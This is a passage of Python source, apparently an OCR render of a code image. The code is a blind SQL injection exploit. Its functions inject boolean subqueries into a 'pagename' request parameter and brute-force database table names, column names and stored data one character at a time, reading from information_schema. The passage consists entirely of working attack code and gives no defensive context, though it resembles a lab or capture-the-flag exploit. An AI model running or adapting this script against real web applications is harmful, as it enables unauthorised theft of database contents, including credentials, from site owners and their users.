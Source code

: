 ```python
            
            if char == ' ':
                print(colored("[i] Finish", 'yellow'))
                sys.exit(0)


def get_tables(database_name):
    characters = string.ascii_letters + string.digits + "," + "_" + " "
    p1 = log.progress(f"Extracting tables of {database_name} database")
    p1.status("")
    p2 = log.progress("Starting brute force")
    time.sleep(1)
    names = ""

    for pos in range(1, 100):
        for char in characters:
            p2.status(char)
            params = {"pagename": f"upload' and (select concat(ascii(substring(group_concat(table_name),{pos},1))) from information_schema.tables where table_schema='{database_name}') = '{ord(char)}"}
            r = requests.get(url, params=params, cookies=cookies)
            if filter in str(r.content):
                names += char
                p1.status(names)
                break
            
            if char == ' ':
                print(colored("[i] Finish", 'yellow'))
                sys.exit(0)

def get_columns(database_name, table_name):
    characters = string.ascii_letters + string.digits + "," + "_" + " "
    p1 = log.progress(f"Extracting columns of {table_name} table")
    p1.status("")
    p2 = log.progress("Starting brute force")
    time.sleep(1)
    names = ""

    for pos in range(1, 100):
        for char in characters:
            p2.status(char)
            params = {"pagename": f"upload' and (select concat(ascii(substring(group_concat(column_name),{pos},1))) from information_schema.columns where table_schema='{database_name}' and table_name='{table_name}') = '{ord(char)}"}
            r = requests.get(url, params=params, cookies=cookies)
            if filter in str(r.content):
                names += char
                p1.status(names)
                break
            
            if char == ' ':
                print(colored("[i] Finish", 'yellow'))
                sys.exit(0)

def get_data(database_name, table_name, column_name):
    characters = string.printable
    p1 = log.progress(f"Extracting data of {column_name} column")
    p1.status("")
    p2 = log.progress("Starting brute force")
    time.sleep(1)
    names = ""

    for pos in range(1, 100):
```